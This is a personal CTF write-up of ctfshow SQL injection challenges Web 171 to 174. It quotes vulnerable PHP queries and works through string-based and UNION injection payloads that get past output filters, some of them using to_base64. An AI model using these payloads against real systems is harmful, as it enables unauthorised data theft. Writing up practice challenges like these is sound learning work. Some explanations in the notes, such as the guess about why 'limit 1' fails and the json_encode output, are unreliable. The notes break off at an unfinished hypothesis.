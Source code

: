 # Web 171
![[Pasted image 20241214102338.png]]
```PHP
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

```SQL
select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;
```
## Observation
PHP code is : `$sql = "xxxxx".$_GET['id']."yyyy"`
- `xxxxx`: `select username,password from user where username !='flag' and id = '`
- `yyyy`: `' limit 1; `
When we do search in this page:
- If username is not flag, and the user ID is not what we provide, the records will be displayed.
- Limit will be executed at last.
## Research

This is a typical ==string== **SQL Injection**.
- Try to use `'` to match the `'` in the string before `$_GET['id']`, so we use `{number}'`.
- Then we also need to match the `'` in the string after `$_GET['id']`, so we use `or username = 'flag`
## Experiment
![[Pasted image 20241216201104.png]]

**Why `limit 1` is invalid?** 
Guess:
- 在分布式数据库（如某些 MySQL 集群版本）中，`LIMIT` 的应用可能被推迟到查询的最终合并阶段，导致在本地节点看到多条记录。
- 某些数据库引擎（如 MySQL）可能会因为缓存问题返回过多的记录。这种情况在高并发查询时容易发生。

# Web 172
![[Pasted image 20241218062030.png]]
Use the same trick, the password says: `flag_not_here`.
![[Pasted image 20241218062133.png]]
## Observation
```PHP
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
But the returning logic:
```PHP
//检查结果是否有flag
if($row->username!=='flag'){
  $ret['msg']='查询成功';
}
```
This filters the record whose username is "flag".
## Research
So we need to avoid this filter by using Base64 coding.
### `TO_BASE64()` Method in MySQL
In the standard SQL, there is no Base64 encoding method.
However, there is `TO_BASE64()` method in MySQL and `encode()` in PostgreSQL.
### UNION SQL Injection
When in string SQL injection point, we also can use UNION method.
- Close the `'` before;
- then follow a new `SELECT` with `UNION`.
## Experiment
use:
```SQL
1' union select to_base64(username), to_base64(password) from ctfshow_user2 where username = 'flag' -- 
```
![[Pasted image 20241218063217.png]]
We can decode the password.

![[Pasted image 20241218064420.png]]

## Another Way
```SQL
select username, password from ctfshow_user2 where username != 'flag' and id = '9999' union select username, password from ctfshow_user2 where username = 'flag' limit 1;
```
to
```SQL
select username, password from ctfshow_user2 where username != 'flag' and id = '9999' union select id, password from ctfshow_user2 where username = 'flag' limit 1;
```

Change username to ID, so that avoiding the condition.

![[Pasted image 20241219064028.png]]
# Web 173
![[Pasted image 20241219064644.png]]
## Observation
```PHP
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user3 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
The condition of returning is:
```PHP
//检查结果是否有flag
if(!preg_match('/flag/i', json_encode($ret))){
  $ret['msg']='查询成功';
}
```
## Analysis
If we don't show the username in the returning record, the condition can be avoided.
[[#Another Way]]
```SQL
select id, username, password from ctfshow_user3 where username != 'flag' and id = '999' union select id, id, password from ctfshow_user3 where username = 'flag' limit 1;
```
## Experiment
Local Test:
![[Pasted image 20241219065519.png]]
The real test:
![[Pasted image 20241219065623.png]]

# Web 174
## Observation
```PHP
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user4 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
The SQL in it is:
```SQL
select id, username, password from ctfshow_user4 where username != 'flag' and id = '???' limit 1;
```
 Condition:
```PHP
//检查结果是否有flag
if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
  $ret['msg']='查询成功';
}
```
The return records cannot include numbers.
## Research
### `json_encode`
In PHP
`json_encode()` convert PHP variables to JSON strings.
#### 数据序列化
In PHP, the datatype, such as array, object, string, numbers, boolean, etc.
convert JSON format strings, so that the strings can transmit or store among different systems or apps.
e.g.:
```php
$data = array('name' => 'John', 'age' => 30, 'city' => 'New York'); $jsonData = json_encode($data); echo $jsonData; 
``` 
The code above convert an array to JSON strings:
`{"name":"John","age":"30","city":"New York"}`
#### Interaction with JavaScript
JSON is the common data format in JavaScript.
```php
<?php 
$data = array('message' => 'Hello from PHP!'); 
$jsonData = json_encode($data); 
?> 
<script> 
var data = <?php echo $jsonData;?>; 
console.log(data.message); 
</script> 
``` 
#### API Development
When developing Web API, we need to convert data to JSON data to return message to client.
`json_encode()` can convert PHP data into JSON format, so that the client can analyze it and explain it.
#### Data Storage
JSON format strings can be stored in Dataset or Files.
When we access the strings, we can use corresponding function to convert JSON strings back to PHP data type.
## Hypothesis
- `to_base64` may also include numbers.
- A stupid solution is to replace the numbers with the signs in numeric area of keyboard. (A long replace code in SQL.)
	- `1->!`
	- `2->@`
	- `3->#`
	- ...
- 